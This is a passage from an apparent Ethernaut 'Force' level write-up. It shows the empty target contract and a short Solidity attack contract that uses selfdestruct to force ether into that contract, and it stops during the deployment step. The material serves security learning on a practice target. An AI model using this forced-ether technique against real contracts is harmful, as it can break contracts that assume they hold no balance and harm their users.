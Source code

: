 # Task

The goal of this level is to make the balance of the contract greater than zero.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
This contract code appears to be an empty contract with ASCII art comment

![image](https://github.com/user-attachments/assets/7fbb2b9a-332d-447f-a336-16e659af176f)

"The best way to attack a contract is with another contract." hinted to the `selfdestruct` operation

You can read more about it [here](https://www.alchemy.com/overviews/selfdestruct-solidity)

Since, they hinted us to using another contract, this means we'll have to write a contract that that accepts ether as payment and then self destructs.

Below is our attack contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract sendFunds {

    constructor(address payable _owner) payable {
        require(msg.value > 0, "Not enough");
        selfdestruct(_owner);
    }

}
```
The `sendFunds` contract transfers Ether to a specified address upon deployment and then self-destructs, ensuring the funds are sent and the contract is destroyed.

Lets get the contract address

![image](https://github.com/user-attachments/assets/ff7bd1b0-1d7a-4972-96f6-69c4bf0a0630)

Before we deploy the attack contract, we can check the balance of the contract

![image](https://github.com/user-attachments/assets/33e45c81-ead7-4ab1-8be7-30fb9f7b6fff)

We can deploy the attack contract using forge by passing the contract address




























